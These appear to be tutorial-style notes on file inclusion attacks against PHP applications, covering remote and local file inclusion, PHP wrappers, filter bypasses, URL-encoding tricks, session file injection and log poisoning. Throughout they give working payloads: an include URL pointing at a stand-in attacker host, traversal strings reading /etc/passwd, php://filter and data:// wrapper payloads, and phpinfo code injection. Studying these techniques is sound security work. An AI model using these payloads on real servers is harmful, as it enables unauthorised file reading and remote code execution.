 ## Basics of File Inclusion
A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system.

Relative pathing refers to locating files based on the current directory.
Absolute pathing involves specifying the complete path starting from the root directory.
## Remote File Inclusion

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.
#### Local File Inclusion
Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.
## PHP Wrappers
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
For instance, an application vulnerable to LFI might include files based on a user-supplied input without sufficient validation. In such cases, attackers can use the `php://filter` filter. This filter allows a user to perform basic modification operations on the data before it's read or written. For example, if an attacker wants to encode the contents of an included file like `/etc/passwd` in base64. This can be achieved by using the `convert.base64-encode` conversion filter of the wrapper. The final payload will then be `php://filter/convert.base64-encode/resource=/etc/passwd`

#### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code. Use the payload `data:text/plain,<?php%20phpinfo();%20?>`. This URL could cause PHP code execution, displaying the PHP configuration details.

## Base Directory Breakout
The PHP function `containsStr` checks if a substring exists within a string. The if condition checks two things. First, if `$_GET['page']` does not contain the substring `../..`, and if `$_GET['page']` contains the substring `/var/www/html`, however, `..//..//` bypasses this filter because it still effectively navigates up two directories.
## Obfuscation
Encoding transforms characters into a different format. In LFI, attackers commonly use URL encoding (percent-encoding), where characters are represented using percentage symbols followed by hexadecimal values. For instance, `../` can be encoded or obfuscated in several ways to bypass simple filters.
- Standard URL Encoding: `../` becomes `%2e%2e%2f`
- Double Encoding: Useful if the application decodes inputs twice. `../` becomes `%252e%252e%252f`
- Obfuscation: Attackers can use payloads like `....//`, which help in avoiding detection by simple string matching or filtering mechanisms.
## PHP Session Files

PHP session files can also be used in an LFI attack, leading to Remote Code Execution, particularly if an attacker can manipulate the session data. In a typical web application, session data is stored in files on the server. If an attacker can inject malicious code into these session files, and if the application includes these files through an LFI vulnerability, this can lead to code execution.
An attacker could exploit this vulnerability by injecting a PHP code into their session variable by using `<?php echo phpinfo(); ?>` in the page parameter.

## Log Poisoning

Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.

